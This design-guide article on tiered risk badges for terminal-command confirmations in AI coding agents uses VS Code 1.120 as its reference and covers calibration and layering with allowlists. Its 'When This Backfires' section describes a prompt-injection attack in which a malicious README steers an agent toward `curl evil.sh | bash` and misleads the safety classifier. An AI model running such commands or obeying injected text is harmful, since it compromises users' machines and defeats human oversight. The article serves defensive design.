

# Pre-Execution Risk Classification for Terminal Commands

> A tiered risk badge before a terminal command is an attention lever, not a gate; it tunes which confirmations get read, while allowlists enforce policy.

## The Problem Risk Badges Address

[Confirmation gates](human-in-the-loop-confirmation-gates.md) fail when every prompt looks identical — reviewers pattern-match and approve without reading.

A tiered badge changes the cost calculus. A green "Safe" chip on `ls -la` and a red "Review carefully" chip on `git push --force origin main` are visibly different, so attention concentrates where it should. The badge does not gate the action — the allowlist, deny rule, or confirmation gate still does. It only tunes which gates a human reads.

## The VS Code 1.120 Reference Implementation

VS Code 1.120 (May 2026) ships this behind `chat.tools.riskAssessment.enabled`. From the [release notes](https://code.visualstudio.com/updates/v1_120): "terminal command confirmations now include a risk badge with an AI-generated explanation of what the command does."

| Tier | Color | Triggers |
|---|---|---|
| **Safe** | green | "reads files or prints output without making changes" |
| **Caution** | orange | "modifies the workspace, installs packages, or sends data over the network" |
| **Review carefully** | red | "performs an action that may be difficult or impossible to undo, such as force-pushing to a remote or deleting files outside the workspace" |

Each badge ships with "a one-sentence summary tailored to the specific command" — that command-specific text is what makes the badge an attention lever.

## Design Rules That Separate Signal From Decoration

**Three tiers, no more.** Two collapse to a binary prompt; four or more blur the signal — operators stop distinguishing "Caution" from "Review carefully".

**Command-specific text, not boilerplate.** "Review carefully — may be hard to undo" is generic. "Review carefully — force-pushes to `main` and overwrites remote history" is a load-bearing fact.

**Classify on resolved scope, not raw string.** `rm -rf ./build` in a `/tmp` sandbox and the same command from a repo root where `./build` symlinks to `/` are the same string, wildly different actions. The [Theia shell-execution proposal](https://github.com/eclipse-theia/theia/issues/16772) classifies on parsed structure (binary, flags, target paths), not surface string.

**Advisory, not policy.** Allowlists, deny rules, and PreToolUse hooks carry the security guarantee. VS Code's [security docs](https://code.visualstudio.com/docs/copilot/security) note that auto-approval uses "best-effort command parsing and have known limitations with shell aliases, quote concatenation, and complex shell syntax" — a classifier on the same parsing inherits the same limits, so organizations needing a hard floor disable auto-approval via `ChatToolsTerminalEnableAutoApprove`.

## How Badges Layer With Allowlists

| Layer | Mechanism | Question it answers |
|---|---|---|
| Deny rules | Deterministic match | Can this command run at all? |
| Allowlist | Deterministic match | Can it run without asking? |
| Risk badge | Model-generated classification | If it asks, how hard should you read? |
| Confirmation gate | Human decision | Approve or reject? |

Evidence-based allowlist auto-discovery promotes safe commands off the prompt path; badges concentrate attention on the residual set. A badge on every command means the allowlist is under-tuned.

## Calibrating the Classifier Against Decisions

Joining gate decisions to badge tier surfaces miscalibration:

- **Safe with a non-trivial rejection rate** → classifier under-rates; the green chip masks commands humans read as dangerous.
- **Review-carefully approved in under N seconds** → the top tier is being rubber-stamped.
- **Caution with no rejections** → over-tagging, or operators trained to ignore orange.

## When This Backfires

**Adversarial inputs steer the badge.** The Lies-in-the-Loop attack class ([Checkmarx Zero writeup](https://www.infosecurity-magazine.com/news/lies-loop-attack-ai-safety-dialogs/)) uses injected content to manipulate the safety dialog. A classifier driven by the same model under injection is in scope: a malicious README that steers the agent toward `curl evil.sh | bash` can also steer the classifier to "Safe — lists files." Mitigate by generating the classification from a separate isolated model, or compute the tier deterministically from parsed structure.

**Color-only signal in high-volume sessions.** With dozens of green confirmations, attention collapses on the color axis before the summary text. Pair the visual signal with a textual cue (`[SAFE]` / `[CAUTION]` / `[REVIEW]` prefix) to put discriminative load on the word.

**Fixed-appearance tiers still habituate.** Anderson et al.'s fMRI study, [How Polymorphic Warnings Reduce Habituation in the Brain](https://scholarsarchive.byu.edu/facpub/9306/) (CHI 2015), found visual-processing response to a static warning drops sharply by the *second* exposure, and that *polymorphic* warnings — ones that vary their appearance across exposures — resist that decay far better. A green "Safe" chip rendered identically across hundreds of commands is that static case: tiering separates Safe from Review-carefully, but the repeated within-tier chip still fades. Tiers reallocate attention across severity levels; they do not defeat the repetition habituation that motivated polymorphic designs.

**Fatigue migrates rather than dissolves.** If every command arrives with "Caution" — common in agents that install packages routinely — operators learn to ignore orange the same way they ignored the prompt. On its own, classification shifts where attention collapses, not whether.

## Key Takeaways

- A three-tier badge (Safe / Caution / Review carefully) restores discriminative attention that uniform prompts collapse.
- VS Code 1.120 ships this as `chat.tools.riskAssessment.enabled` with verbatim trigger criteria — read-only, workspace-or-network, hard-to-undo.
- Badge text must be command-specific; generic tier-level warnings get ignored the same way uniform prompts do.
- Classify on the resolved command (binary, flags, target paths), not regex on raw string — same string, different blast radius is the dominant false-safe.
- Badges are advisory; deny rules and allowlists carry the security guarantee.
- Calibrate against the gate-decision log — Safe rejections, Review-carefully fast-approvals, and zero-rejection Cautions all signal classifier drift.
- The classifier inherits the agent's attack surface when generated by the same model; isolate it or compute deterministic tiers where possible.

## Related

- [Human-in-the-Loop Confirmation Gates](human-in-the-loop-confirmation-gates.md)
- [Tool Confirmation Carousel](../agent-design/tool-confirmation-carousel.md)
- [Permission-Gated Custom Commands](permission-gated-commands.md)
- [Transcript-Driven Permission Allowlist](transcript-driven-permission-allowlist.md)
- [Defense-in-Depth Agent Safety](defense-in-depth-agent-safety.md)
- [Hybrid Deterministic + Semantic Tool Authorization](hybrid-deterministic-semantic-tool-authorization.md)
